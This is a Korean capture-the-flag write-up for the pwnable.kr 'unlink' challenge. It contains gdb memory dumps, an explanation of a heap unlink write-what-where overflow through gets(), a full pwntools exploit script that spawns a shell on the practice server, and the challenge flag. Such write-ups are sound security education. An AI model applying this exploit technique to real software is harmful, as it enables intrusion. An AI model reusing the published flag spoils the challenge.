

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**


# **Write-Up**

우선 unlink를 qdb를 통해 디버깅해보자.

```sh
unlink@pwnable:~$ gdb -q unlink
(gdb) disas main
... 생략 ...
```

A의 주소를 알려주니, A의 주소의 값들은 어떻게 이루어져있는지 보자.

A->fd의 주소는 0x08efe428이고, B는 A->fd의 값인 0x08efe428임을 알 수 있다.

B->bk의 주소는 0x08efe42c이고, 값은 A의 주소인 0x08efe410이 맞다는 것을 알 수 있다.

마찬가지로 B->fd의 주소인 0x08efe428에는 C의 주소가 들어있다.

A의 buf 주소는 0x08efe418이고, gets를 사용했기 때문에 오버플로우가 일어날 수 있음을 고려하고 있자.

```sh
(gdb) b *main+186
Breakpoint 1 at 0x80485e9
(gdb) r
Starting program: /home/unlink/unlink
here is stack address leak: 0xffa74f04
here is heap address leak: 0x8efe410
now that you have leaks, get shell!
ABCD

Breakpoint 1, 0x080485e9 in main ()
(gdb) x/20x 0x8efe410
0x8efe410:      0x08efe428      0x00000000      0x44434241      0x00000000
0x8efe420:      0x00000000      0x00000019      0x08efe440      0x08efe410
0x8efe430:      0x00000000      0x00000000      0x00000000      0x00000019
0x8efe440:      0x00000000      0x08efe428      0x00000000      0x00000000
0x8efe450:      0x00000000      0x00000409      0x20776f6e      0x74616874
```

unlink 이후의 값을 살펴 보자.

A의 fd가 C를 향하고 있고, C의 bk가 A를 향하고 있다.

```sh
(gdb) b *main+200
Breakpoint 2 at 0x80485f7
(gdb) c
Continuing.

Breakpoint 2, 0x080485f7 in main ()
(gdb) x/20x 0x8efe410
0x8efe410:      0x08efe440      0x00000000      0x44434241      0x00000000
0x8efe420:      0x00000000      0x00000019      0x08efe440      0x08efe410
0x8efe430:      0x00000000      0x00000000      0x00000000      0x00000019
0x8efe440:      0x00000000      0x08efe410      0x00000000      0x00000000
0x8efe450:      0x00000000      0x00000409      0x20776f6e      0x74616874
```

shell의 주소를 구하자.

```sh
(gdb) disas shell
Dump of assembler code for function shell:
   0x080484eb <+0>:     push   %ebp
   0x080484ec <+1>:     mov    %esp,%ebp
   0x080484ee <+3>:     sub    $0x8,%esp
   0x080484f1 <+6>:     sub    $0xc,%esp
   0x080484f4 <+9>:     push   $0x8048690
   0x080484f9 <+14>:    call   0x80483c0 <system@plt>
   0x080484fe <+19>:    add    $0x10,%esp
   0x08048501 <+22>:    nop
   0x08048502 <+23>:    leave
   0x08048503 <+24>:    ret
End of assembler dump.
```

이후 ret에서 shell을 호출하면 될듯 하다.

```sh
(gdb) disas main
... 생략 ...
=> 0x080485f7 <+200>:   add    $0x10,%esp
   0x080485fa <+203>:   mov    $0x0,%eax
   0x080485ff <+208>:   mov    -0x4(%ebp),%ecx
   0x08048602 <+211>:   leave
   0x08048603 <+212>:   lea    -0x4(%ecx),%esp
   0x08048606 <+215>:   ret
... 생략 ...
```

stack에서 A부터 ebp의 크기를 구하자.

```sh
(gdb) p $ebp - 0xffa74f04
$1 = (void *) 0x14
```

따라서, A->buf에는 shell 주소(4byte) + dummy(12 byte) + (heap + 12의 주소)(4byte) + (ebp - 4의 주소)(4byte)이 들어가야 한다.



FLAG를 획득하자.

```python
from pwn import *

s = ssh(user='unlink', host='pwnable.kr', port=2222, password='guest')
p = s.process("./unlink")

p.recvuntil('here is stack address leak: ')
stack_address   = int(p.recvline().strip(), 16)
ebp_address     = stack_address + 0x14

p.recvuntil('here is heap address leak: ')
heap_address    = int(p.recvline().strip(), 16)
buf_address     = heap_address + 8
shell_address   = 0x080484eb

payload = p32(shell_address)
payload += b'A'*12
payload += p32(buf_address + 4)
payload += p32(ebp_address - 4)

p.recvuntil('now that you have leaks, get shell!\n')
p.sendline(payload)
p.interactive()

[Output]
... 생략 ...
[+] Starting remote process bytearray(b'./unlink') on pwnable.kr: pid 44121
[*] Switching to interactive mode
$ $ cat flag
conditional_write_what_where_from_unl1nk_explo1t
```


# **FLAG**

**conditional_write_what_where_from_unl1nk_explo1t**